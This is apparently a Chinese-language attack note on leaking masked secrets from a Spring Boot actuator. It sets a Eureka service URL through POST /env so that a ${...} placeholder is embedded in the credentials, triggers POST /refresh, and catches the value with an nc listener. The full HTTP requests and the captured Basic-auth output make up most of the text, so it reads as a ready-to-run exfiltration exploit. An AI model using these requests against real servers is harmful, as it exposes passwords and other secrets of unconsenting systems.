 # SpringBoot env 获取* 敏感信息 (一)

当我们直接访问 springboot 站点时,可以看到某些 password 字段填充了*

通过${name} 可以获取明文字段

参考 `https://mp.weixin.qq.com/s/HmGEYRcf1hSVw9Uu9XHGsA`

具体实现过程:

例如: 我们要获取 pid 参数值

```
"PID": "10648",
```


```
POST /env HTTP/1.1
Host: 10.20.24.191:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 76

eureka.client.serviceUrl.defaultZone=http://${PID}@10.20.24.191:2444/

```
然后 post refresh 任意内容,触发漏洞

Ps: `一般情况需要等待3秒会有响应包，如果立即返回可能是服务缺少spring-boot-starter-actuator扩展包无法刷新漏洞则无法利用`

```
POST /refresh HTTP/1.1
Host: 10.20.24.191:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

12312
```

当服务器 nc 监听端口2444 时,接收到


```
root@kali:/tmp# nc -lvvp 2444
listening on [any] 2444 ...
connect to [10.20.24.191] from kali [10.20.24.191] 40960
GET /xstream/apps/ HTTP/1.1
Accept: application/json
DiscoveryIdentity-Name: DefaultClient
DiscoveryIdentity-Version: 1.4
DiscoveryIdentity-Id: 10.20.24.191
Accept-Encoding: gzip
Host: 10.20.24.191:2444
Connection: Keep-Alive
User-Agent: Java-EurekaClient/v1.4.11
Authorization: Basic MzgzNDY6bnVsbA==
```
